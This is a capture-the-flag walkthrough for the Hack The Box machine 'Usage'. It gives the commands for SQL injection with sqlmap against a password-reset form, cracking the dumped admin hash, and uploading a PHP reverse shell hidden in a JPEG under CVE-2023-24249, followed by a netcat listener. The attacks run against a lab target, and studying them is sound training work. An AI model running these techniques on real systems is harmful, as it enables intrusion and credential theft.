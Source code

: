 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Usage
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/262a3e3d-d622-4ddb-943c-a25262dd15c4)


I add usage to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://usage.htb`

```
echo "10.10.11.18   usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e3dd36f2-b62a-4418-8dbb-aa516a39f3ec)

#### Subdomain Enumaration

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.usage.htb" -u http://usage.htb -fs 154
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a9118ccd-eaae-48f4-bc67-bffb955466e4)

and I found `admin.usage.htb` and added to `/etc/hosts`

```
echo "10.10.11.18    admin.usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e014a343-d0b3-4af0-9a31-e0084c89cbc0)


#### Whatweb

```
whatweb 10.10.11.18
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5c0fe04-dd17-4b10-8241-d93da4561a7b)

I Identified that this website is built using the Laravel framework

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel



### User Flag

After checking out the Password Reset Option and finding it interesting, I fired up Burp Suite. I captured the POST request, as shown below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d1255c2a-589d-41ee-b75e-c9a714d9a87d)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/58a49c54-5fde-4fd4-8d09-89e53c03f078)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/967606a2-a82a-4ead-beb1-5d8cedd71825)


I copied the POST request to a text file, which I named `request.txt`

```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IkVMOEV1aUo4VjFHSEw3VEIzeERyRVE9PSIsInZhbHVlIjoiR3R4aVJxRWxMakUvNE1oVkQ0SS9DR3Q1T3FBTnZvS2JTY3R3dlFnZEJ2Z2NhaUp2V0FKTGtJSVdUS2VnK3crSlNrUEFnS2NQMXBBQllrWWJtYmdMR0w1SzdxR2dGY3lsT1BHeVRGNXp3bEttWUNRNmRBSkk4RXkxS0xYK1pOb0wiLCJtYWMiOiJlMzkyYTY1YzJjOGQ2MDdiNWI3MTRiZGIxYzk2N2FlMzNiYzFlNjZiZjk4NWE4MDkyYWE3NjgxMGI5NTMxMjgyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjUxUE5tOW5TYlAxd0FFQ3p2YjhEaXc9PSIsInZhbHVlIjoiTGl0Y3hFZU81Y2F2anNXcXNXa3pVd0RwNHcvYjMzbHBSWTlISW80VjZBSzVjTTZDd3FKVkhiNnhPdDVDejNYK2RVNDcvSERMOGc2dzNFMHpycTBSeGZSemk2TEZyZk5QWDE2N05YM21GcWFDcHJRSjVGSTRFajVhSTBOR0IvOTEiLCJtYWMiOiJiYzYwMDUyMGQzMTk2ODM2ZDkxMTI1NjhmYWFmYmU3YjgxZjMzMjUzZGExYWE1YTQ0MTA1NGI4NjMwYmFhMDU4IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=jElJgEoOoONVCfBoDfa67TPzd6VxBk4o43ObgKlY&email=1*
```

Now, let's fire up SQLMap.

```
sqlmap -r request.txt --level 5 --risk 3 --batch
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6b6b64cc-60a2-4095-a6e5-f0497d7f1e39)


```
sqlmap -r request.txt --level 5 --risk 3 --batch --dbs
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/006a9509-9d5c-4321-8e38-d29e23b558c2)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog --tables
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5d27c0aa-7d0d-46e0-802b-bf7ef31ba846)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users --columns
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3b7f3015-a002-4657-9b82-3399ca75d385)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users -C username,password --dump
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b787f27b-9d1d-4521-9a9b-31646c38cc2a)

So I copied the hash and saved it to `pass.txt`

```
echo "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" > pass.txt
```

let's use john to crack it.

```
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/32720f6c-00e4-4828-9027-4fd3a30975fe)

and I used these credntials to login to admin portal (`admin : whatever1`)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2de43c41-5f44-4f0d-a629-9f383f6c0f2a)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/92ee756b-5372-43ea-9fd9-a6fd3a365377)

Search for the latest vulnerabilities and find a warning about laravel-admin having an arbitrary file upload vulnerability (CVE-2023-24249). The affected version number is 1.8.19, and the system version number is 1.8.18. It should be affected,  and finally found this article:

https://flyd.uk/post/cve-2023-24249/

Let's prepare the webshell. Here we use kali's php shell file locate at : `/usr/share/webshells/php/php-reverse-shell.php`, modified the IP (tun0) and port (4444) information, and then use 010editor to create a picture horse.

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

```
nano php-reverse-shell.php
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/734ecf2c-79e8-4dee-bb66-9a2f946162ac)

Now let's download the 010editor : https://www.sweetscape.com/download/010editor/

Let's extract and run the 010editor

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/434e87e4-fcfc-40a7-8a64-c32d8d051d7a)

then i went to `http://admin.usage.htb` and move to `administrator settings` and i have downlod the admin image like below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7d869bdc-9536-44a5-961b-98f9bea085b3)

Then I open that image from 010editor ( Open File ---> select the image file)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/83b1f9f2-ac2f-48bf-b489-3ab63000899a)

then In that image, I moved to the end of the header and paste the selected php-reverse-shell code:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/467e8d46-bc20-4c7e-960c-86d23805657e)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/37963562-1712-46d6-b2f0-ea63fdf1043e)

then saved the file as `shell.jpg`

#### Initial Foothold

let's create a netcat listner:

```
nc -nlvp 4444
```


Then I fired up the burp suite and intersept the process of uploading `shell.jpg`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/21fba85e-5d9e-4ac3-99fb-5f3634c0f5cd)

so now we can change the filename to `shell.jpg.php` and forward the requests:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c097dc56-59e4-418a-8754-6c82470cc72c)

so we got the reverse shell, so let's get the `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c6e15823-278a-462d-995e-c066e8afdfac)


### Privilege Escalation

I was searching all the options to escalate privileges, but I couldn’t find anything. So, I tried listing all users on the system.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b9c4eebf-9447-4198-a38e-00e546ce46ce)

I realize I need to locate Xander’s credentials, but how can I do it? And then, I stumbled upon a file (.monitrc) that contained Xander’s credentials. 

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/fde58e94-ec57-4192-a182-c0753dd46f7d)

```
ssh xander@usage.htb
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2f6cb420-9aba-4621-a341-8d8da4d049da)


### root.txt

```
sudo -l
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6053ec59-0bee-4258-9bbb-6bba266e3886)

Since this is custom software, there’s no way to attack it using GTFOBins. However, we can utilize the strings command to read binary files.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/28b66857-bd31-4fda-b78e-9d183ca41d6e)


